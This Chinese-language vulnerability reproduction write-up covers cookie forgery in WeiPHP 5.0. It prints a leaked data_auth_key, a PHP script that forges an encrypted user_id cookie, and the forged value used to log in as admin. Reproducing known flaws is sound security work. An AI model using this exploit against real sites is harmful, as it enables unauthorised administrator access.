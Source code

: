 # WeiPHP5.0 任意用户Cookie伪造

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞简介

`WeiPHP5.0`是在2019年停止更新的一个系统，漏洞挺多的，跟着复现分析一下，这里复现一下 `WeiPHP5.0`的任意用户 `Cookie`伪造漏洞

## 影响范围

`WeiPHP5.0`最新版

可以据此下载

https://www.weiphp.cn/doc/download_source_installation.html

## 漏洞复现

首先要利用前些天发布的 [WeiPHP5.0 前台任意文件读取](https://mp.weixin.qq.com/s?__biz=Mzg2Mzc2OTM0OQ==&mid=2247483782&idx=1&sn=cf245173b17817006375afb705167985&chksm=ce72c7ecf9054efa2495d2ad1ee2bd7be66bd2b638c84dc10cf971df7048717e239dd4e12c19&token=646394225&lang=zh_CN#rd) 读取 `data_auth_key`

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1652363316312-37768b1d-d740-4f49-9ad7-5df887591a52.png)

访问 `/index.php/home/file/user_pics`后下载该文件

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1652363372337-4f582642-dba2-4286-b9fe-ae8d091dde9e.png)

找到 `data_auth_key`的值为

```php
'data_auth_key' => 'kE^&%X.IpoDq2US*n!u>@G8+#Rd{_]a<QfJ3Lg9?'
```

接下来利用 `think_encrypt`伪造 `cookie`，稍微改造一下即可

```php
<?php
highlight_file(__FILE__);
function think_encrypt($data, $key = '', $expire = 0)
{
    $key = md5("kE^&%X.IpoDq2US*n!u>@G8+#Rd{_]a<QfJ3Lg9?");

    $data = base64_encode($data);
    $x = 0;
    $len = strlen($data);
    $l = strlen($key);
    $char = '';

    for ($i = 0; $i < $len; $i++) {
        if ($x == $l) {
            $x = 0;
        }

        $char .= substr($key, $x, 1);
        $x++;
    }

    $str = sprintf('%010d', $expire ? $expire + time() : 0);

    for ($i = 0; $i < $len; $i++) {
        $str .= chr(ord(substr($data, $i, 1)) + (ord(substr($char, $i, 1))) % 256);
    }
    return str_replace(array(
        '+',
        '/',
        '='
    ), array(
        '-',
        '_',
        ''
    ), base64_encode($str));
}

echo think_encrypt(1);

?>
```

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1652363741220-9965dd38-56aa-4788-9448-e6a54d77d372.png)

因此可以构造

```php
user_id=MDAwMDAwMDAwMIC1cp4
```

利用 `hackerbar`即可登录 `admin`

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1652363859301-b4f78d46-2c90-4fcf-8420-b44af42f34d9.png)

## 总结

这个漏洞利用的前提是获得 `data_auth_key`，本文中是结合了前台任意文件读取漏洞获取，总体来说，如果该前台任意文件读取漏洞被补掉之后，这个洞就几乎无用武之地了。

## 参考链接

- `http://wiki.peiqi.tech/wiki/cms/WeiPHP/WeiPHP5.0%20%E4%BB%BB%E6%84%8F%E7%94%A8%E6%88%B7Cookie%E4%BC%AA%E9%80%A0%20CNVD-2021-09693.html#weiphp5-0-%E4%BB%BB%E6%84%8F%E7%94%A8%E6%88%B7cookie%E4%BC%AA%E9%80%A0-cnvd-2021-09693`



`github` 链接：`https://github.com/d5shenwu/vulPOC`

